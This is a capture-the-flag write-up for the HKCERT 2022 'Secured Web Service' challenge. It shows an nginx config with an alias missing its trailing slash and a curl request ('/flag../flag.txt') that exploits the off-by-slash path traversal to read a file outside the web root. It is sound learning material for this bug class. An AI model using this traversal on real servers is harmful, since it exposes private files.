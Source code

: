 # Secured Web Service

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★☆☆☆☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

Find the flag in `/var/www/html/flag.txt`

Web: [http://chal.hkcert22.pwnable.hk:28308/flag/](http://chal.hkcert22.pwnable.hk:28308/flag/)

Attachment: [secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip](https://file.hkcert22.pwnable.hk/secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112044224.png)

## Find the flag

**In this challenge, we can download an attachment:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# unzip secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip 
Archive:  secured-web-service_8a208bc65eff67c1cc1f2502e39337bb.zip
  inflating: nginx.conf
```

**`nginx.conf`:**
```
worker_processes auto;
error_log stderr warn;
pid /run/nginx.pid;

events {
    worker_connections 1024;
}

http {
    include mime.types;
    default_type application/octet-stream;

    # Define custom log format to include reponse times
    log_format main_timed '$remote_addr - $remote_user [$time_local] "$request" '
                          '$status $body_bytes_sent "$http_referer" '
                          '"$http_user_agent" "$http_x_forwarded_for" '
                          '$request_time $upstream_response_time $pipe $upstream_cache_status';

    access_log /dev/stdout main_timed;
    error_log /dev/stderr notice;

    keepalive_timeout 65;

    # Write temporary files to /tmp so they can be created as a non-privileged user
    client_body_temp_path /tmp/client_temp;
    proxy_temp_path /tmp/proxy_temp_path;
    fastcgi_temp_path /tmp/fastcgi_temp;
    uwsgi_temp_path /tmp/uwsgi_temp;
    scgi_temp_path /tmp/scgi_temp;

    # Default server definition
    server {
        listen [::]:8080 default_server;
        listen 8080 default_server;
        server_name _;

        sendfile off;
        tcp_nodelay on;
        absolute_redirect off;


        location /flag {
            # First attempt to serve request as file, then
            # as directory, then fall back to index.php
            #try_files $uri $uri/ /index.php?q=$uri&$args;
            alias /var/www/html/flag/;
        }

    }
}
```

This web server has 1 location: `/flag`, and **it's missing the trailling slash**!

**`/flag`:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag' 
<html>
<head><title>301 Moved Permanently</title></head>
<body>
<center><h1>301 Moved Permanently</h1></center>
<hr><center>nginx/1.23.2</center>
</body>
</html>
                                                                                                           
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag/'
<html>
<head>
  <title>Slash</title>
</head>

<body>
  <p>Hello World</p>
  <script>
    location.replace("https://www.youtube.com/watch?v=RQ76vkzmolQ&t=0s")
  </script>
</body>

</html>
```

**When I reach to `/flag/`, it has a JavaScript that redirects me to a rickroll YouTube video.**

**Also, in the `<title>` tag, it's `Slash`, which is a hint of missing the trailling slash!**

**After some goolging, I found this [Tweet](https://twitter.com/x0rz/status/1052899891624710145?lang=en):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112045704.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112045711.png)

**In Hack.lu 2018, a researcher [Orange Tsai](https://twitter.com/orange_8361) from Taiwan talked about the Nginx off-by-slash vulnerability!**

**Since we know the flag is in `/var/www/html/flag.txt` according to the challenge description, we can just `curl` the flag!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/Secured-Web-Service]
└─# curl 'http://chal.hkcert22.pwnable.hk:28308/flag../flag.txt'   
hkcert22{y0u_4re_4s_k1ng_4s_0r4ng3_g0_bug_hunt1ng}
```

We got the flag!

# Conclusion

What we've learned:

1. Nginx Off-By-Slash Vulnerability